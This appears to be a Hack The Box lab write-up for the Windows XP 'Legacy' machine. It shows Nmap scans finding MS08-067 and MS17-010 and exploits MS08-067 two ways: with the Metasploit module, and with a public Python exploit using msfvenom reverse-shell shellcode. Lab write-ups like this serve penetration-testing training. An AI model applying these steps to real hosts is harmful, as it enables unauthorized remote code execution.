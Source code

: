 ```yaml
---
"title": "Hack The Box - Legacy"
"date": 2020-02-25
"tags": ["windows", "easy", "smb", "ms08-067"]
"keywords": ["windows", "easy", "smb", "ms08-067"]
"author": "Ghostbyt3"
"description": "We are going to pwn Legacy from Hack The Box. Which is a windows box based on smb exploit and I have explained in two methods."
"featured_image": "/img/htb-legacy/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-legacy/1.png)

We are going to pwn Legacy from Hack The Box. Which is a windows box based on smb exploit and I have explained in two methods.

Link : [https://www.hackthebox.eu/home/machines/profile/2](https://www.hackthebox.eu/home/machines/profile/2)


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 Server (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m32s, deviation: 1h24m50s, median: -4h58m32s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: [unknown](unknown), NetBIOS MAC: 00:50:56:b9:1d:23 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-02-24T14:47:45+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## SMB:

Started with ``smbmap`` to check if there is any file.

```
root@w0lf# smbmap -H 10.10.10.4
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.4...
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
        Disk                                                    Permissions
        ----                                                    -----------
[!] Access Denied
```

I tried the nmap scripts to check for vulnerabilities. Since the OS is Windows XP there must be.

```
root@w0lf# nmap --script smb-vuln* -p 445 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 19:20 EST
Nmap scan report for 10.10.10.4
Host is up (0.018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```
So the box is vulnerable to SMB exploit ``ms08-067``

```
ms - Microsoft
08 - The year of the patch was released i.e 2008
067 - The patch number i.e 067
```
> https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi

## Method 1:

> use exploit/windows/smb/ms08_067_netapi

![Untitled](/img/htb-legacy/2.png)

By using this method we can get the root shell easily.

## Method 2 (Without Metasploit):

> https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

From the exploit, first we need to create shellcode with ``msfvenom``
![Untitled](/img/htb-legacy/3.png)

```
-p This will connect back to me with a shell.
-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.
-f py - The output in python format.
-v shellcode - Specify a custom variable name to use for certain output formats
-a x86 and --platform windows - Describing the environment I’m attacking.
```


I created mine using the example.
![Untitled](/img/htb-legacy/4.png)

I replaced my shellcode here 

![Untitled](/img/htb-legacy/5.png)

So we need to enter OS version we already know its ``Windows XP`` so I used ``6``
![Untitled](/img/htb-legacy/6.png)

![Untitled](/img/htb-legacy/7.png)

Started my listener on background.

![Untitled](/img/htb-legacy/8.png)


```
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69....................
```

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993.....................
````


